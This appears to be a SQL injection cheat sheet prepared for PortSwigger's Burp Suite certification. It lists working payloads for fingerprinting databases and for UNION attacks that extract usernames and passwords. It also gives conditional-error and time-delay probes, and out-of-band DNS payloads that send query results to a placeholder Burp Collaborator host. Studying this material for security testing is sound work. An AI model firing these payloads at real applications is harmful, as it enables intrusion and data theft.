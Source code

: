 ##### PortSwigger BurpSuite Certification Summary
# SQL Injection
### Determine the Database
```
SELECT @@version # fails. Then you know it is not MS SQL or MySQL.
SELECT version() # fails. You know it is not PostGres
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;# Succeeds! You know it is oracle.
```
Oracle always requires a `FROM` statement with every `SELECT`. To query arbitrary data (such as strings), the `dual` table should be used, e.g.:
```
SELECT 'A','B' FROM dual
```

### String Concatenation
In order to get multiple results in one column.
```
Oracle,PostgreSQL			'foo'||'bar'
Microsoft					'foo'+'bar'
MySQL						'foo' 'bar' or CONCAT('foo','bar')
```

### Comments
```
Oracle  					--comment
Microsoft,PostgreSQL		--comment or /*comment*/
MySQL						#comment or -- comment or /*comment*/				
```

### Substring
Syntax: SUBSTRING(string, start_position, length)
```
Oracle						SUBSTR('foobar',4,2)
All others					SUBSTRING('foobar',4,2)
```

### Length
All databases have a function for string length: `LENGTH()`

### List Tables & Columns
```
Oracle 				 	SELECT * FROM all_tables
						SELECT * FROM all_tab_columns WHERE table_name=''

All others		  		SELECT * FROM information_schema.tables
						SELECT * FROM information_schema.columns WHERE table_name = ''
```

### UNION Attack
Determine the number of columns:
```
UNION SELECT NULL
...
UNION SELECT NULL, ..., NULL
```
or
```
ODER BY 1
...
ORDER BY 10
```

Check which columns are formatted as string by replacing any `NULL` with `'A'`.

Use UNION to query information from other tables:
```
UNION SELECT username, password FROM users
```

### Conditional Errors
```
Oracle 		SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (1=1) THEN cast(1/0 as text) ELSE NULL END
MySQL		SELECT IF(1=1, SELECT table_name FROM information_schema.tables, 'a')
```

MySQL IF() syntax: SELECT IF(condition, case_true, case_false)

### Time Delays
Sleep for 10 seconds.
```
Oracle	  	dbms_pipe.receive_message(('a'),10)
Microsoft  	WAITFOR DELAY '0:0:10'
PostgreSQL  	SELECT pg_sleep(10)
MySQL		SELECT sleep(10)
```
In Oracle, a concatenation of strings is required for a conditional time delay:

`SELECT CASE WHEN (1=1) THEN
'A'||dbms_pipe.receive_message(('A'),10) ELSE NULL END FROM dual`

### DNS Lookup
Oracle
```
SELECT extractvalue(xmltype(
	'<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [ <!ENTITY % remote SYSTEM
	"http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l')
FROM dual
```
PostgreSQL
```
copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
```
MySQL
```
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

Prepending any query result to the subdomain, separated with a `.`, allows for sending information to the adversary.

Note:
* The Oracle statement works only on unpatched versions.
* The MySQL statement is only working on Windows machines
